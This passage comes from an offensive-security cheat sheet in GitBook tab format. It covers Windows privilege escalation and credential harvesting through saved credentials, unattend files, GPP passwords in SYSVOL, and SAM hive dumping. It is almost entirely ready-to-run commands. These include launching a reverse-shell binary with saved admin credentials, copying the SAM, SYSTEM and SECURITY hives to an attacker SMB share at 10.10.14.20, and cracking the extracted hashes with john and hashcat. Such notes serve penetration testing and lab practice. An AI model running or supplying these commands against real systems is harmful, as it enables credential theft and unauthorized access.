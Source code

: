 {% endcode %}
{% endtab %}

{% tab title="Creds" %}
{% code overflow="wrap" %}
```bash
# List any saved credentials:
cmdkey /list
# Use those creds to execute commands as that user:
runas /savecred /user:admin C:\PrivEsc\reverse.exe
```
{% endcode %}
{% endtab %}

{% tab title="Unattended" %}
```powershell
# If after using PowerUp.ps1 with the command Invoke-AllCheks we find this:
Check                                     AbuseFunction
-----                                     -------------
Unattended Install Files
# There are passwords stored in base64:
PS > type C:\Windows\Panther\Unattend\Unattended.xml
• C:\Unattend.xml
• C:\Windows\Panther\Unattend.xml
• C:\Windows\Panther\Unattend\Unattend.xml
• C:\Windows\system32\sysprep.inf
• C:\Windows\system32\sysprep\sysprep.xml
```
{% endtab %}

{% tab title="SYSVOL/GPP" %}
{% code overflow="wrap" %}
```bash
https://github.com/TheManticoreProject/FindGPPPasswords
https://github.com/t0thkr1s/gpp-decrypt

# Credentials in SYSVOL and Group Policy Preferences (GPP)
findstr /s /n /i /p password \\example.com\sysvol\example.com\*
mount.cifs -o domain=example.com,username=john,password="pass@123" //10.10.139.115/SYSVOL /mnt
grep -ir 'password' /mnt
```
{% endcode %}
{% endtab %}

{% tab title="SAM" %}
{% code overflow="wrap" %}
```bash
# Check Windows/System32/config to find SYSTEM and SAM 
samdump2 SYSTEM SAM
# ANOTHER OPTION --> pwdump.py SYSTEM SAM > sam.txt
# CRACK IT WITH JOHN
john --list=formats | grep -iF "md5"
john --format=NT --wordlist=rockyou.txt sam.txt
# ANOTHER WAY OF DUMPING THE FILES
This files are in use for the system, so copy them.
C:\>reg save HKLM\SAM SAM.backup
C:\>reg save HKLM\SYSTEM SYSTEM.backup
C:\>reg save HKLM\SECURITY SECURITY.backup
# Tranfer them to our Kali machine with smbserver.
copy SAM.backup \\10.10.14.20\share\SAM
copy SYSTEM.backup \\10.10.14.20\share\SYSTEM
# If we get SAM, SYSTEM and SECURITY (optional), we provide them to dump hashes 
secretsdump.py -sam $SAM [-security $SECURITY] -system $SYSTEM LOCAL
# copy all to a text file
hashcat -m 1000 --user hashes rockyou.txt
```
{% endcode %}